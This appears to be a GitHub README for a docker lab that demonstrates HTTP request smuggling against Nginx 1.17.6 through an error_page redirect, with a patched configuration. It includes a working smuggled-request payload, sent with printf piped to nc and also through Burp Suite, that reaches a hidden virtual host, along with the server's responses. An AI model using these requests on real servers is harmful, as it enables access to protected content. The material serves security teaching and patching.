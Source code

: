 #	HTTP REQUEST SMUGGLING ON NGINX

##	AFFECTED VERSION

Nginx 1.17.6

##	Usage

DEMONSTARTION PURPOSE.

###	HOW TO CONFIGURE 

```bash
$ git clone https://github.com/403accessdenied/HTTP-REQUEST-SMUGGLING
$ cd HTTP-REQUEST-SMUGGLING
$ docker-compose up -d
```


The nginx server will on the port 9095.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



##	Reproduce

### open linux terminal and paste the below command

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /sensitive/index.html HTTP/1.1\r\n'\
'Host: attackerhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9095
```

 ###  you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

successfully accessed my secret!
```
## Reproduce using **Burpsuite**

1. Open bursuite and  open firefox browser 
2. Open the url **127.0.0.1:9095** in the browser 
3. Intercept the request and send it to the repeater 
4. Now replace the intercepted request with the following request
 
```bash 
GET / HTTP/1.1
Host: 127.0.0.1:9095
Content-Length: 56

GET /_hidden/index.html HTTP/1.1
Host: attackerhost


```

![burp-request](https://user-images.githubusercontent.com/102154743/159486728-f7605d05-6724-4500-a091-fbe670f90402.png)

5. When you send the request we will get below response


![burp-response](https://user-images.githubusercontent.com/102154743/159486730-227653af-d594-450f-87a3-c6c0cda04c61.png)

6.Repeat the process untill we will get **Two response from server** as below


![burp-desync](https://user-images.githubusercontent.com/102154743/159486724-71df79ac-94ca-4ec8-a011-2e3967092bac.png)

# Patch
```
NGINX supports the ability to have the error_page handler change the resulting error page and error code
into a 302 redirect, as such:
error_page 401 https://example.org/;
Other forms of the error_page handler are NOT vulnerable:
error_page 404 /404.html;
error_page 404 @404;
```
# vulnerable configaration in *default.conf*
```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```

# Patch for above configaration 
```
server {
 listen 80;
 server_name localhost;
 error_page 401 @401;
 location / {
 return 401;
 }
 location @401 {
 return 302 http://example.org;
 }
}

server {
 listen 80;
 server_name attackerhost;
 location /sesitive/index.html {
 return 200 'successfully accessed my secret';
 }
}
```
#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
